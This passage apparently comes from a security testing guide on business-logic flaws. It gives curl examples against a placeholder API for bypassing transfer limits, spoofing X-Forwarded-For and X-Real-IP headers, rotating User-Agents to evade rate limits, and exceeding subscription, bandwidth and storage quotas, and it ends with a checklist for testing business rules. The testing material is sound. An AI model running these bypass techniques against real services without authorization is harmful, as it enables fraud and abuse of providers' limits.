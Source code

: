 ```bash
  -d '{"recipient": "user456", "amount": 100000}'

# Method 3: Midnight reset exploitation
curl -X POST https://api.example.com/transfers \
  -H "Authorization: Bearer $USER_TOKEN" \
  -d '{"recipient": "user456", "amount": 5000, "scheduled_time": "23:59:59"}'
```

#### API Rate Limit Bypass
```bash
# Test rate limit bypass techniques
API_KEY="your_api_key"

# Method 1: Header manipulation
curl -H "X-API-Key: $API_KEY" -H "X-Forwarded-For: 1.1.1.1" https://api.example.com/data
curl -H "X-API-Key: $API_KEY" -H "X-Real-IP: 2.2.2.2" https://api.example.com/data

# Method 2: User-Agent rotation
user_agents=("Mozilla/5.0 (Windows NT 10.0)" "Mozilla/5.0 (Macintosh)" "Mozilla/5.0 (X11; Linux)")
for ua in "${user_agents[@]}"; do
  curl -H "X-API-Key: $API_KEY" -H "User-Agent: $ua" https://api.example.com/data
done

# Method 3: Parameter variation
curl -H "X-API-Key: $API_KEY" "https://api.example.com/data?v=1&format=json"
curl -H "X-API-Key: $API_KEY" "https://api.example.com/data?version=1&format=xml"
```

#### Usage Quota Exploitation
```bash
# Test subscription limits bypass
PREMIUM_TOKEN="premium_user_token"

# Test feature usage beyond subscription limits
for i in {1..1000}; do
  curl -H "Authorization: Bearer $PREMIUM_TOKEN" \
    https://api.example.com/premium/advanced-feature
done

# Test bandwidth limit bypass
curl -H "Authorization: Bearer $PREMIUM_TOKEN" \
  "https://api.example.com/download/large-file?compress=false&quality=max"

# Test storage limit bypass
curl -X POST https://api.example.com/files/upload \
  -H "Authorization: Bearer $PREMIUM_TOKEN" \
  -F "file=@huge_file.zip"
```

### Business Rule Testing Checklist
- [ ] **Daily Limits**: Daily transaction/usage limits enforced
- [ ] **Monthly Quotas**: Monthly subscription quotas respected
- [ ] **User Tier Limits**: Different limits for different user tiers
- [ ] **Geographic Restrictions**: Location-based restrictions enforced
- [ ] **Time-based Rules**: Time-sensitive rules properly validated
- [ ] **Cumulative Limits**: Aggregate limits calculated correctly
- [ ] **Reset Logic**: Limit reset mechanisms work properly
- [ ] **Exception Handling**: Business rule exceptions handled securely

---